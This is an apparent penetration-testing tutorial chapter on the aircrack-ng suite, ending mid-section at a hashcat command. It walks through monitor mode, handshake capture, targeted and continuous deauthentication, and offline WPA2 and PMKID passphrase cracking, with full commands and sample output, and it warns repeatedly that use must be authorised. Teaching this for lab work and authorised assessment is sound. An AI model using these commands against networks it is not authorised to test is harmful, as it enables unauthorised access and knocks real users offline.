




**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 250 min

This is Chapter 2 of the Wireless notebook. Chapter 1 built the theory: the 802.11 security generations, the WPA2 key hierarchy, the four-way handshake message by message, and why a captured handshake is crackable offline. This chapter is where that theory becomes muscle memory. You are going to learn the **aircrack-ng suite** — the collection of command-line tools that almost every Wi-Fi assessment on the planet still leans on — from the very first command that puts your adapter into monitor mode to the moment `aircrack-ng` (or `hashcat`) prints `KEY FOUND!`.

The goal is not to memorise a four-line "how to hack Wi-Fi" recipe. Recipes fail the instant reality diverges from the blog post — the wrong channel, a hidden SSID, a client that will not roam, a chipset that refuses injection. The goal is to understand *what each tool is doing to the radio and to the frames*, so that when a capture does not work you can diagnose it instead of re-running the same command in frustration. By the end you will be able to reason about every step: which interface is in which mode, which channel you are locked to, why a handshake did or did not appear, and which crack pipeline is fastest for the hash you captured.

Everything here is for **authorised testing only** — your own lab, your own hardware, or an engagement with written scope. Capturing handshakes, injecting deauthentication frames, or standing up rogue APs against networks you do not own or are not contracted to assess is illegal in most jurisdictions (in the US, the Computer Fraud and Abuse Act; in the UK, the Computer Misuse Act; and local equivalents elsewhere). Deauthentication in particular is an active denial-of-service against real users — never fire it outside a lab or an explicitly scoped engagement. Build the home lab described at the end and practise there.

---

## Part 1: What the Aircrack-ng Suite Actually Is

"Aircrack-ng" is confusing to newcomers because the name refers to two things: a single program called `aircrack-ng` (the cracker) and the whole **suite** of programs that share the `air*` prefix. When people say "I used aircrack-ng to get onto the Wi-Fi," they almost always mean the *suite* — a pipeline of small, sharp tools that each do one job in the capture-and-crack chain.

The suite exists because attacking Wi-Fi is not one action; it is a sequence: get the radio into a mode where it can hear everything, find the target, tune to its channel, capture the right frames, optionally nudge a client into re-authenticating so those frames appear, and finally take the captured cryptographic material offline and guess the passphrase. Each of those steps is a different tool.

Here is the whole family and what each member is for. Learn these names now; the rest of the chapter teaches each one from scratch.

| Tool | One-line job | Where it fits in the chain |
| --- | --- | --- |
| `airmon-ng` | Put a wireless interface into (or out of) **monitor mode**; find and stop interfering processes | Setup — first thing you run |
| `airodump-ng` | **Scan** for APs/clients and **capture** raw 802.11 frames to a file | Discovery + capture |
| `aireplay-ng` | **Inject** frames — deauth, fake auth, ARP replay, test injection | Force a handshake / attack WEP |
| `aircrack-ng` | **Crack** WEP keys and WPA/WPA2 PSK handshakes from a capture file | Offline cracking |
| `airdecap-ng` | **Decrypt** a WEP/WPA capture once you have the key | Post-crack analysis |
| `airbase-ng` | Act as a **rogue AP** / soft AP (evil twin base) | Rogue-AP attacks (later chapter) |
| `airolib-ng` | Manage **PMK lookup tables** (ESSID + passphrase → PMK) to speed WPA cracking | Optimisation |
| `packetforge-ng` | Craft custom encrypted packets (mostly WEP) | WEP attacks |
| `airtun-ng` | Create a virtual tunnel interface from decrypted traffic | Advanced/monitoring |
| `airserv-ng` | Expose a wireless card over TCP to other tools | Advanced/remote |
| `airdecloak-ng` | Remove WEP "cloaking" chaff from a capture | WEP cleanup |
| `airdriver-ng` | Driver helper scripts | Support |

For a modern WPA2/WPA3 assessment you will spend 95% of your time in just four of these: `airmon-ng`, `airodump-ng`, `aireplay-ng`, and `aircrack-ng` — plus, increasingly, the **hcxtools** family (`hcxdumptool`, `hcxpcapngtool`) and **hashcat**, which have largely superseded the classic aircrack-ng dictionary attack for speed. We will teach all of them.



Keep that diagram in your head for the whole chapter. Every tool below is one box in it.

### Installing the suite on Kali

On Kali Linux the suite is pre-installed. To confirm and to get the newest release on any Debian/Ubuntu system:

```bash
# Check what's installed and the version
aircrack-ng --help | head -n 3
airmon-ng    # prints the interface/driver table (and version in the banner)

# Install / update from the distro repo
sudo apt update
sudo apt install -y aircrack-ng

# The hcxtools pipeline (modern PMKID/handshake path) — install these too
sudo apt install -y hcxtools hcxdumptool

# hashcat for GPU cracking
sudo apt install -y hashcat
```

If you need the absolute latest (the repo version sometimes lags on new chipset support), build from source:

```bash
sudo apt install -y build-essential autoconf automake libtool pkg-config \
  libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill \
  zlib1g-dev libpcap-dev libsqlite3-dev libpcre2-dev libhwloc-dev \
  libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
git clone https://github.com/aircrack-ng/aircrack-ng
cd aircrack-ng
autoreconf -i
./configure --with-experimental      # enable extra tools like airolib-ng
make -j"$(nproc)"
sudo make install
sudo ldconfig
```

`autoreconf -i` regenerates the build scripts; `--with-experimental` compiles the optional tools (`airolib-ng`, `tkiptun-ng`); `make -j"$(nproc)"` builds in parallel across all CPU cores; `ldconfig` refreshes the shared-library cache so the new binaries find their libs.

---

## Part 2: The Hardware Reality — Chipsets, Monitor Mode, and Injection

Before a single command, understand this: **the aircrack-ng suite is only as capable as your wireless adapter's chipset and driver.** No amount of correct commands will make an adapter that cannot do monitor mode or packet injection capture a handshake. This is the single most common reason a beginner's capture "doesn't work," and it has nothing to do with aircrack-ng.

### The modes a Wi-Fi radio can be in

A wireless interface operates in one of several 802.11 modes. The two that matter here:

- **Managed (station) mode:** the normal mode. The card associates to one AP, accepts frames addressed to its own MAC (plus broadcast/multicast), and the driver hands the OS decrypted IP traffic. It will *not* show you other networks' data frames.
- **Monitor mode (RFMON):** the card stops associating with anything and instead reports **every 802.11 frame it hears on the tuned channel**, headers and all, up to userspace — management frames (beacons, probes, auth, deauth), control frames (ACK, RTS/CTS), and data frames from every device in range. This is the mode capture requires. It is passive: in pure monitor mode you transmit nothing.

Two other modes exist — **Master** (the card *is* an AP, used by `airbase-ng`/`hostapd`) and **Ad-hoc/Mesh** — but for capture you care about monitor mode.

### Monitor mode vs. injection — they are different capabilities

- **Monitor mode** = the card can *listen* to all frames. Almost every modern chipset supports this.
- **Packet injection** = the card can *transmit arbitrary frames* the driver did not originate (e.g. a forged deauth). This is a *separate* capability and many otherwise-fine chipsets/drivers cannot inject, or can only inject unreliably.

You need monitor mode to capture. You need injection to run `aireplay-ng` attacks (deauth, fake auth, WEP replay). A passive capture (just waiting for a client to connect on its own) needs only monitor mode; an active capture (forcing a handshake with deauth) needs injection too.

### Chipsets that work well

The community-blessed chipsets for monitor + injection (as of writing) include:

| Chipset | Common adapters | Notes |
| --- | --- | --- |
| Atheros AR9271 | Alfa AWUS036NHA, TP-Link TL-WN722N **v1** | 2.4 GHz only; rock-solid `ath9k_htc` driver; the classic beginner card |
| Ralink/MediaTek RT3070 | Alfa AWUS036NH | 2.4 GHz; reliable injection |
| Realtek RTL8812AU | Alfa AWUS036ACH / AC1200 | Dual-band 2.4/5 GHz; needs the out-of-tree `88XXau` driver |
| MediaTek MT7612U | Alfa AWUS036ACM | Dual-band; excellent mainline `mt76` driver, strong 5 GHz + injection |
| MediaTek MT7921U | Various AX adapters | Wi-Fi 6; newer, improving support |

**Beware the TP-Link TL-WN722N trap:** only **v1** (Atheros AR9271) does injection well. v2/v3 use a Realtek chip and need a different driver and behave differently. Check the version printed on the box/label.

Check your chipset and driver:

```bash
# List USB wireless devices and their chipset
lsusb
# Example line: Bus 001 Device 004: ID 0bda:8812 Realtek Semiconductor Corp. RTL8812AU

# Show the interface, driver, and chipset as airmon-ng sees it
sudo airmon-ng
# PHY   Interface   Driver     Chipset
# phy0  wlan0       ath9k_htc  Qualcomm Atheros Communications AR9271
```

**Verify injection actually works** before you rely on it — this one test saves hours of confusion:

```bash
sudo aireplay-ng --test wlan0mon
# 22:14:59  Trying broadcast probe requests...
# 22:14:59  Injection is working!
# 22:15:00  Found 3 APs
# 22:15:00  Trying directed probe requests...
# 22:15:00  20:AA:4B:1C:9D:E0 - channel: 6 - 'HomeNet'
# 22:15:01  Ping (min/avg/max): 1.2ms/3.8ms/9.1ms Power: -41.00
# 22:15:01  30/30: 100%
```

`Injection is working!` and a high success percentage mean the card can transmit forged frames. If it says injection is NOT working, deauth attacks will fail no matter how perfect your commands are.

### The 2.4 GHz vs 5 GHz gotcha

A 2.4 GHz-only card (AR9271) physically cannot see or attack a network running on a 5 GHz channel (36–165). Modern routers dual-broadcast, and many clients prefer 5 GHz. If your target's clients are on 5 GHz and your card is 2.4-only, you will sit there capturing nothing. Use a dual-band card (MT7612U / RTL8812AU) for real engagements. **Regulatory domain** also restricts which channels/power your card will use; see Part 4.

---

## Part 3: airmon-ng — Getting Into Monitor Mode Cleanly

`airmon-ng` is the setup tool. Its job is to (1) enumerate your wireless interfaces and their drivers/chipsets, (2) switch an interface into monitor mode, and (3) identify and stop the userspace processes that will otherwise fight you for control of the radio.

### Why NetworkManager and wpa_supplicant must be stopped

On a normal desktop, **NetworkManager** and **wpa_supplicant** are constantly managing your Wi-Fi — scanning, trying to associate, renewing DHCP. If they keep touching the card while you are trying to hold it on one channel in monitor mode, they will **change your channel out from under you** or knock the interface back to managed mode mid-capture. The classic symptom is a capture that "randomly stops seeing the target" — that is NetworkManager channel-hopping your card during a background scan.

`airmon-ng check` lists the offenders; `airmon-ng check kill` stops them:

```bash
sudo airmon-ng check
# Found 2 processes that could cause trouble.
# Kill them using 'airmon-ng check kill' before putting
# the card in monitor mode, they will interfere by changing channels
# and sometimes putting the interface back in managed mode
#     PID Name
#     742 NetworkManager
#     889 wpa_supplicant

sudo airmon-ng check kill
# Killing these processes:
#     PID Name
#     889 wpa_supplicant
```

Note this **kills your normal Wi-Fi connectivity** on that machine. If your Kali box is connected over Wi-Fi, you will drop off the network. Plan for that — use a second adapter, an Ethernet cable, or run from a VM where the monitor-mode card is a dedicated USB adapter passed through.

To bring things back afterwards:

```bash
sudo systemctl restart NetworkManager
```

### Starting and stopping monitor mode

```bash
# Put wlan0 into monitor mode
sudo airmon-ng start wlan0
# It creates a NEW interface, usually wlan0mon (older systems: mon0)
# PHY   Interface   Driver     Chipset
# phy0  wlan0       ath9k_htc  Qualcomm Atheros AR9271
#       (monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
#       (mac80211 station mode vif disabled for [phy0]wlan0)

# Confirm the new monitor interface exists and its type
iw dev
# Interface wlan0mon
#     type monitor

# Stop monitor mode (returns to managed)
sudo airmon-ng stop wlan0mon
```

The name of your monitor interface (`wlan0mon`) is what you feed to every other tool. Get it wrong and nothing works.

**`airmon-ng start wlan0 6`** — you can pass a channel as the third argument to start monitor mode already tuned to channel 6.

### Doing it without airmon-ng (the `iw` / `ip` way)

`airmon-ng` is a convenience wrapper around the kernel's `mac80211` stack. Knowing the manual sequence makes you independent of it and is essential when a driver misbehaves:

```bash
sudo ip link set wlan0 down            # bring the interface down first
sudo iw dev wlan0 set type monitor     # switch PHY type to monitor
sudo ip link set wlan0 up              # bring it back up
sudo iw dev wlan0 set channel 6        # tune to a channel
iw dev wlan0 info                      # verify: type monitor, channel 6
```

Some drivers prefer creating a *separate* monitor vif rather than flipping the existing one:

```bash
sudo iw phy phy0 interface add mon0 type monitor
sudo ip link set mon0 up
```

**Red team / pentester note:** knowing the raw `iw`/`ip` path matters on a stripped target or a Raspberry Pi drop box where `airmon-ng` is not installed but `iw` is. It is also the only way on some newer `mt76`/`iwlwifi` combos where `airmon-ng` mis-detects the interface.

### rfkill — the silent killer

If the interface refuses to come up ("Operation not possible due to RF-kill"), a soft or hard block is set:

```bash
rfkill list
# 0: phy0: Wireless LAN
#     Soft blocked: yes
#     Hard blocked: no
sudo rfkill unblock wifi     # clear the soft block
```

Hard-blocked means a physical switch/BIOS toggle — you must flip it. This one line resolves a huge fraction of "my card won't enter monitor mode" reports.

---

## Part 4: airodump-ng — Scanning and Capturing

`airodump-ng` is the eyes of the operation. In monitor mode it does two things: **discovery** (a live, refreshing list of APs and clients in range) and **capture** (writing the raw frames — including the handshake you want — to disk).

### Discovery: the scan screen

Run it against your monitor interface with no filters to see everything:

```bash
sudo airodump-ng wlan0mon
```

You get a live dashboard, refreshing about once a second, split into two tables:

```
 CH  6 ][ Elapsed: 48 s ][ 2026-11-24 22:20

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 20:AA:4B:1C:9D:E0  -39      412      1032   14   6  360   WPA2 CCMP   PSK  HomeNet
 3C:84:6A:77:12:B4  -67      120        18    0  11  270   WPA2 CCMP   PSK  Office-5G
 F8:1A:67:00:AB:CD  -74       55         0    0   1  130   WPA  TKIP   PSK  OldPrinter
 (not associated)   -55        0         5    0   -    -    -    -           <hidden>

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 20:AA:4B:1C:9D:E0  A4:C3:F0:11:22:33  -41   1e- 1e     0       210          HomeNet
 20:AA:4B:1C:9D:E0  B8:27:EB:44:55:66  -58   0e- 6e    12        44
 (not associated)   D0:37:45:AA:BB:CC  -60    0 - 1      0        18          FreeCoffee,HomeNet
```

Every column matters when choosing a target. Learn them:

| Column | Meaning | Why you care |
| --- | --- | --- |
| **BSSID** | AP radio MAC | The target you lock onto |
| **PWR** | Signal strength (higher = closer; -39 is strong, -85 is weak) | Weak signal = unreliable capture; get closer or use a better antenna |
| **Beacons** | Count of beacon frames seen | Confirms the AP is live and in range |
| **#Data** | Captured data frames | Activity indicator; also matters for WEP (need many IVs) |
| **#/s** | Data frames per second | How busy the network is right now |
| **CH** | Channel the AP is on | You must lock your card to this channel |
| **MB** | Max supported rate (e.g. 360 = 802.11n) | Fingerprints AP capability |
| **ENC / CIPHER / AUTH** | Encryption (WEP/WPA/WPA2/WPA3), cipher (TKIP/CCMP), auth (PSK/MGT/SAE) | Tells you which attack applies — PSK = crackable handshake; MGT = enterprise EAP; SAE = WPA3 |
| **ESSID** | Network name (`<hidden>` or `<length: N>` if hidden) | Human identifier of the target |
| **STATION** | Client MAC associated to (or probing for) an AP | The client you can deauth to force a handshake |
| **Probes** | SSIDs a client is looking for | Reveals networks the client has joined before (evil-twin fuel) |

**Reading the auth column is the single most important triage step:** `PSK` means a pre-shared-key network whose four-way handshake you can capture and crack offline (the focus of this chapter). `MGT` means WPA-Enterprise (802.1X/EAP) — a different attack (relay/impersonation, later chapter), not a handshake crack. `SAE` means WPA3 — no offline handshake crack (Chapter 1 covered why), though transition mode and PMKID edge cases exist.

### Band and channel selection while scanning

By default airodump-ng hops across the 2.4 GHz channels. To scan 5 GHz or both, use `--band`:

```bash
sudo airodump-ng --band a wlan0mon        # 5 GHz only (a)
sudo airodump-ng --band bg wlan0mon       # 2.4 GHz (b and g)
sudo airodump-ng --band abg wlan0mon      # both bands (requires dual-band card)
```

`a` = 5 GHz, `b`/`g` = 2.4 GHz. You can only scan a band your chipset supports — a 2.4-only card ignores `--band a`.

### Capture: locking onto a target and writing to disk

Scanning hops channels, which is fine for discovery but **useless for capturing a handshake** — you might be on channel 11 when the handshake happens on channel 6. To capture, you **lock** to the target's channel and BSSID and write to a file:

```bash
sudo airodump-ng \
  --bssid 20:AA:4B:1C:9D:E0 \
  --channel 6 \
  --write capture_homenet \
  --output-format pcap \
  wlan0mon
```

Flag by flag:

- `--bssid 20:AA:4B:1C:9D:E0` — filter to just this AP. Cleaner screen, cleaner capture file.
- `--channel 6` (or `-c 6`) — **lock** the card to channel 6. No more hopping. Critical: the handshake only appears if you are parked on the right channel.
- `--write capture_homenet` (or `-w`) — write captures to files prefixed `capture_homenet` (`.cap`, `.csv`, `.kismet.csv`, `.kismet.netxml`, `.log.csv`).
- `--output-format pcap` — write a standard pcap (`.cap`). You can also use `pcapng`, `csv`, `kismet`, `netxml`, or a comma list. pcap is what `aircrack-ng` and Wireshark read.
- `wlan0mon` — the monitor interface (always last).

Other frequently used airodump-ng flags:

| Flag | Purpose |
| --- | --- |
| `-c / --channel` | Lock to a channel (or a comma list to hop a subset) |
| `--bssid` | Filter to one AP MAC |
| `-w / --write` | Capture file prefix |
| `--band a\|bg\|abg` | Which band(s) to scan |
| `-a` | Hide clients not associated to a shown AP |
| `--wps` | Show WPS info (locked/version) — WPS is a separate attack surface |
| `--manufacturer` | Resolve the OUI to a vendor name |
| `--uptime` | Estimate AP uptime from beacon timestamps |
| `--berlin N` | Seconds before a station with no packets is removed from the display |
| `--write-interval N` | Flush the CSV every N seconds |
| `-r file.cap` | Replay/read from a saved capture instead of a live card |

### The handshake indicator

When airodump-ng captures a complete four-way handshake for your locked BSSID, it prints a banner in the **top-right corner** of the header:

```
 CH  6 ][ Elapsed: 2 mins ][ 2026-11-24 22:31 ][ WPA handshake: 20:AA:4B:1C:9D:E0
```

That `WPA handshake: <BSSID>` text is the whole point — it means the four EAPOL messages you need are in the `.cap` file. If you also see PMKID captured, newer builds note it too. Do not stop the capture the instant it flashes; give it a few extra seconds to ensure all four frames were written cleanly (see the verification step in the lab).

**Blue team usage:** airodump-ng is equally a *defensive* survey tool. Walking a building with it reveals rogue APs, mis-configured open/WEP networks, WPA-TKIP holdouts, and clients leaking previously-joined SSIDs in their probe requests — all of which are findings in a wireless posture assessment.

---

## Part 5: aireplay-ng — Injection and the Deauthentication Attack

Passive capture works only if a client happens to (re)connect while you are listening. Sometimes you cannot wait. `aireplay-ng` **injects** frames to *make* the interesting event happen. Its most important use for WPA2 is the **deauthentication (deauth) attack**: forcibly disconnect a client so that when it automatically reconnects, it performs the four-way handshake — which you capture.

### Why deauth works: unprotected management frames

In plain WPA2 (without 802.11w/PMF), **management frames are not authenticated or encrypted.** A deauthentication frame is a management frame that says "this station is now disconnected." Because it is unprotected, *anyone* can forge one claiming to be from the AP to the client (or vice versa), and the receiver obeys it. The client drops the connection and — because it is configured to auto-reconnect — immediately re-associates and re-runs the four-way handshake. You are parked on the channel with airodump-ng and you capture it.



### The deauth command, flag by flag

```bash
sudo aireplay-ng \
  --deauth 5 \
  -a 20:AA:4B:1C:9D:E0 \
  -c A4:C3:F0:11:22:33 \
  wlan0mon
```

- `--deauth 5` (or `-0 5`) — send 5 *bursts* of deauth frames. Each burst is actually multiple frames (aireplay sends 64 per "count" toward the client and toward the AP). `--deauth 0` means **continuous, unlimited** deauth (a full DoS — avoid outside a lab).
- `-a 20:AA:4B:1C:9D:E0` — the **AP** BSSID (the network you are targeting).
- `-c A4:C3:F0:11:22:33` — the **client** STATION MAC to kick. If you **omit `-c`**, aireplay sends a *broadcast* deauth to disconnect *all* clients — louder, more disruptive, and often less reliable at producing a clean single-client handshake. Targeting one client is stealthier and cleaner.
- `wlan0mon` — the monitor interface, which **must be locked to the AP's channel** (run your capturing airodump-ng with `-c 6` in another terminal first).

Expected output:

```
22:33:10  Waiting for beacon frame (BSSID: 20:AA:4B:1C:9D:E0) on channel 6
22:33:10  Sending 64 directed DeAuth (code 7). STMAC: [A4:C3:F0:11:22:33] [ 64| 63 ACKs]
22:33:11  Sending 64 directed DeAuth (code 7). STMAC: [A4:C3:F0:11:22:33] [ 62| 65 ACKs]
...
```

The `[ 64| 63 ACKs]` part is gold: the second number is **ACKs received from the client**, proving your injected frames actually reached it. Zero ACKs means the client is out of range, on a different channel, or PMF is protecting it.

### Other aireplay-ng attack modes

`aireplay-ng` does far more than deauth. The `--test`/`-9` mode you saw in Part 2 validates injection. The others are mostly WEP-era but worth knowing:

| Mode | Flag | Purpose |
| --- | --- | --- |
| Deauthentication | `-0 / --deauth` | Disconnect clients (force WPA handshake / DoS) |
| Fake authentication | `-1 / --fakeauth` | Associate to a WEP AP so you can inject (WEP) |
| Interactive replay | `-2 / --interactive` | Choose and replay a specific frame |
| ARP request replay | `-3 / --arpreplay` | Classic WEP IV-generation attack |
| KoreK chopchop | `-4 / --chopchop` | Decrypt a WEP packet without the key |
| Fragmentation | `-5 / --fragment` | Obtain WEP keystream for forging |
| Café-latte | `-6 / --caffe-latte` | Attack a WEP client, not the AP |
| Injection test | `-9 / --test` | Verify injection + list reachable APs |

For WPA2/WPA3 work, `-0` (deauth) and `-9` (test) are the two you use. The WEP modes matter only against legacy WEP networks (Part 8).

**Ethics reminder:** `--deauth 0` (continuous) against a production network is a sustained denial-of-service that knocks real people offline and can disrupt safety-critical devices. Only ever run bounded, minimal deauth against a client you are authorised to test, and prefer the smallest count that produces a handshake.

---

## Part 6: aircrack-ng — Cracking the Handshake

Once the `.cap` contains a handshake, `aircrack-ng` (the program) takes over. For WPA/WPA2-PSK it performs an **offline dictionary attack**: for each candidate passphrase in a wordlist it derives the PMK (via PBKDF2-HMAC-SHA1 with the ESSID as salt, 4096 iterations), derives the PTK using the ANonce/SNonce/MACs from the captured handshake, computes the MIC over the EAPOL frame, and compares it to the captured MIC. A match means the passphrase is correct.

### Cracking WPA/WPA2 with a wordlist

```bash
aircrack-ng \
  -w /usr/share/wordlists/rockyou.txt \
  -b 20:AA:4B:1C:9D:E0 \
  capture_homenet-01.cap
```

- `-w /usr/share/wordlists/rockyou.txt` — the wordlist. `rockyou.txt` (14M+ leaked passwords) ships with Kali (gunzip it first: `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`). You can pass multiple: `-w list1,list2`.
- `-b 20:AA:4B:1C:9D:E0` — the target BSSID, in case the capture has more than one network.
- `capture_homenet-01.cap` — the capture file (note the `-01` suffix airodump-ng adds).

Sample run:

```
                               Aircrack-ng 1.7

      [00:00:42] 118203/14344385 keys tested (2801.44 k/s)

      Time left: 84 minutes, 12 seconds                          0.82%

                          KEY FOUND! [ Summer2023! ]

      Master Key     : 5C 9D 3B ... 7A F1
      Transient Key  : 1A 2F ... 9C 40
      EAPOL HMAC     : 3E 88 ... B2 6D
```

`KEY FOUND!` with the passphrase in brackets is the result. The **key rate** (`2801.44 k/s` here — a CPU) is why the modern workflow moves to hashcat on a GPU (millions to billions/sec).

**Piping candidates from stdin** (e.g. from `crunch` or a rule engine) uses `-w -`:

```bash
crunch 8 8 -t @@@@2024 | aircrack-ng -w - -b 20:AA:4B:1C:9D:E0 capture_homenet-01.cap
```

### Speeding it up with airolib-ng (PMK precomputation)

The PBKDF2 step is the expensive part, and it depends only on `(ESSID, passphrase)` — not on the specific handshake. So for a fixed ESSID you can **precompute** the PMKs once and reuse them across many handshakes for that same network name:

```bash
airolib-ng homenet.db --import essid <(echo "HomeNet")
airolib-ng homenet.db --import passwd rockyou.txt
airolib-ng homenet.db --batch                 # compute PMKs (slow, one-time)
aircrack-ng -r homenet.db capture_homenet-01.cap
```

This is the CPU-era optimisation; a GPU with hashcat is usually faster overall today, but airolib-ng shines when you attack the *same ESSID* repeatedly.

### Cracking WEP (for completeness)

WEP does not use a passphrase dictionary; it is broken statistically from captured IVs:

```bash
aircrack-ng -b <BSSID> wep_capture-01.cap
```

With enough unique IVs (tens of thousands, generated via ARP replay — Part 8) aircrack-ng recovers the WEP key in seconds using the PTW attack. Detail is in Part 8.

---

## Part 7: The Modern Path — PMKID, hcxdumptool, and hashcat

The classic "deauth → capture four-way handshake → aircrack-ng dictionary" flow still works, but two developments changed the modern workflow: the **PMKID clientless attack** and **GPU cracking with hashcat**. Chapter 1 introduced PMKID conceptually; here is the tooling.

### PMKID — capturing without a client

Introduced by the hashcat team, the PMKID attack exploits that some APs include a **PMKID** in the first message of the four-way handshake (EAPOL M1), inside the RSN information element. The PMKID is `HMAC-SHA1(PMK, "PMK Name" || AP_MAC || STA_MAC)`. Because the PMK depends only on the passphrase and ESSID, capturing a single M1 containing a PMKID lets you crack the passphrase offline — **without ever needing a connected client and without any deauth.** You just need the AP to respond to an association attempt.

Not every AP exposes a PMKID (it depends on the vendor/roaming config), but many do, and it is faster and quieter than the four-way dance when it works.



### hcxdumptool — capture PMKID and handshakes

`hcxdumptool` is a modern, aggressive capture tool that talks to APs to elicit PMKIDs and grabs handshakes at the same time. Teach-from-scratch: it replaces airodump-ng+aireplay for the capture step in the modern pipeline, writing directly to a **pcapng** file that the hcx converter understands.

First, on recent versions you disable the interfering services yourself (hcxdumptool sets monitor mode internally):

```bash
sudo systemctl stop NetworkManager wpa_supplicant     # or airmon-ng check kill

# Capture on a specific interface, filtered to one target, writing pcapng
sudo hcxdumptool -i wlan0 -w dump.pcapng --enable_status=1
```

- `-i wlan0` — the interface (hcxdumptool manages monitor mode itself on modern releases).
- `-w dump.pcapng` — output file (pcapng, not pcap).
- `--enable_status=1` — print live status so you see PMKIDs/handshakes as they land.

To restrict to specific targets (be surgical and stay in scope), use the version-appropriate filter options (a BPF filter, or `--filterlist_ap` on some builds). Always scope tightly on a real engagement — older `hcxdumptool` defaults were notoriously noisy (it would attack everything in range).

### hcxpcapngtool — convert to a hashcat hash

The captured PMKID/handshake must be converted from pcapng into hashcat's `22000` hash-line format:

```bash
hcxpcapngtool -o hash.hc22000 dump.pcapng
# reads dump.pcapng, writes hash.hc22000 (hashcat mode 22000)
# also prints a summary: PMKID(s) written, EAPOL handshakes written, etc.
```

Mode **22000** is the unified WPA-PBKDF2-PMKID+EAPOL format that superseded the old `2500` (hccapx) and `16800` (PMKID) modes. One file can hold both PMKIDs and four-way handshakes.

### hashcat — GPU cracking

```bash
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
